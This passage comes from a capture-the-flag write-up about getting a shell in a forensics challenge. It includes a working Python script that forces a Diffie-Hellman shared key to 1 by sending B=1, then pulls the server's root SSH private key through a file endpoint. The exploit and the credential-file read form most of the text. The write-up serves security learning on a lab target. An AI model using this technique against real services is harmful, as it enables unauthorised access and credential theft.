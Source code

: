 ## Getting a shell

In `server/Dockerfile` we have:

```Dockerfile
RUN mkdir /root/.ssh && \
    ssh-keygen -t rsa -b 4096 -f /root/.ssh/id_rsa -q -N "" && \
    cp /root/.ssh/id_rsa.pub /root/.ssh/authorized_keys
```

In order to get these keys we need to replicate the above dialog, including
getting a fresh `client_id` and key exchange. At first, I did something like:

```python
resp = requests.get(SERVER+"/gen_keys")
j = json.loads(resp.text)
client_id = j["client_id"]
exp = random.randint(0, j["p"]-1)
B = pow(j["g"], exp, j["p"])
shared_key = pow(j["A"], exp, j["p"])
```

... but then, I realized none of that is actually needed. We control `exp` and can set it
to zero - which will result in both `B` and `shared_key` being set to `1`. With that,
[get_keys.py](https://github.com/mufl0n/mufl0n.github.io/blob/main/shc/forensics/the-office/get_keys.py):

```python
import json
import os
import random
import requests

SERVER = "https://adaea8da-3295-4851-acb8-8d8ee2107792.library.m0unt41n.ch:31337"

resp = requests.get(SERVER+"/gen_keys")
j = json.loads(resp.text)
client_id = j["client_id"]
requests.post(
    SERVER+"/recv_keys",
    headers={"Content-Type": "application/json"},
    json={
        "client_id": client_id,
        "B": 1,
    })

resp = requests.post(
    SERVER+"/files",
    headers={"Content-Type": "application/json"},
    json={
        "client_id": client_id,
        "shared_key": 1,
        "path": "/root/.ssh/id_rsa"
    })
open("chall_key", "w").write(resp.text)
os.chmod("chall_key", 0o600)
```
